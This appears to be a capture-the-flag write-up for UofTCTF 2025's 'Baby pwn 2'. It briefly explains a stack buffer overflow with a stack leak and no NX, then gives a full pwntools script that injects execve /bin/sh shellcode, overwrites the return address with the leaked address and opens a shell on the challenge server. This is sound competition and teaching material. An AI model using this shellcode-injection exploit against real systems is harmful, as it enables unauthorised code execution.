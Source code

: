 ```yaml
---
title: Baby pwn 2
description: Hehe, now there's no secret function to call. Can you still get the flag?
categories: ["ctf", "UofTCTF 2025"]
tags: ["pwn"]
media_subpath: "/assets/posts/2025/uoftctf/baby-pwn-2"
---
```


We have a buffer overflow and a stack leak:

![](1.png)

NX is disabled, so we can directly execute shellcode from the stack.
We just need to overwrite the return address with the stack leak and execute our shellcode.

```py
from pwn import *

context.log_level = "debug"
context.arch = "amd64"

'''
io = gdb.debug("./baby-pwn-2", """
    b *vulnerable_function + 81
    c
""")
'''

io = remote("34.162.119.16", 5000)
io.readuntil(b"Welcome")

leak = int(io.clean().split(b"\n")[1].split(b" ")[-1], 16)
log.success(f"{leak = :#0x}")

shellcode = asm("""
    xor rsi, rsi
    push rsi
    mov rdi, 0x68732f2f6e69622f
    push rdi
    push rsp
    pop rdi
    push 59
    pop rax
    cdq
    syscall
""")

io.sendline(flat(
    shellcode,
    b"A" * (72 - len(shellcode)),
    p64(leak)
))

io.interactive()
```
